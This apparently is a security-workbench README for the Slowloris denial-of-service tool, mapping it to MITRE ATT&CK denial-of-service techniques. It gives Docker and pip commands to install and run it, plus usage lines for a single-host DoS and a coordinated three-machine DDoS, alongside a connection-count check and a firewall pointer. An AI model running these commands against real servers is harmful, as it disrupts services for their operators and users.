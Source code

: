 # Slowloris

**Keywords:** DDoS

## References

- [MITRE ATT&CK](https://attack.mitre.org/)

## Kill Chain

- Recon
- Exploit
- Escalate
- Lateral Movement
- Evade
- Action

## MITRE ATT&CK

### Tactics

- Reconnaissance
- Resource Development
- Initial Access
- Execution
- Persistence
- Privilege Escalation
- Defense Evasion
- Credential Access
- Discovery
- Lateral Movement
- Collection
- Command & Control
- Exfiltration
- Impact
  - T1498: Network Denial of Service
  - T1499: Endpoint Denial of Service

## Docker

### Network

```sh
docker network create workbench \
  --subnet 10.1.1.0/24
```

### Running

```sh
docker run -d \
  $(echo "$DOCKER_RUN_OPTS") \
  -h slowloris \
  --name slowloris \
  --network workbench \
  docker.io/aminvakil/slowloris:latest [ip-address] \
    -s 900
```

### Remove

```sh
docker rm -f slowloris
```

## CLI

### Installation

#### pip

```sh
pip3 install Slowloris
```

### Usage

```sh
# DoS Attack
slowloris [ip-address] -s 900

# DDos Attack
slowloris [ip-address] -s 300 --sleeptime 3 # Machine 1
slowloris [ip-address] -s 400 --sleeptime 4 # Machine 2
slowloris [ip-address] -s 500 --sleeptime 5 # Machine 3
```

## Tips

### Listen Treads

```sh
netstat -ant | grep -E ':80|:443' | wc -l
```

### Prevent Attack with Firewall

Select and configure an [Firewall](/firewall/README.md).
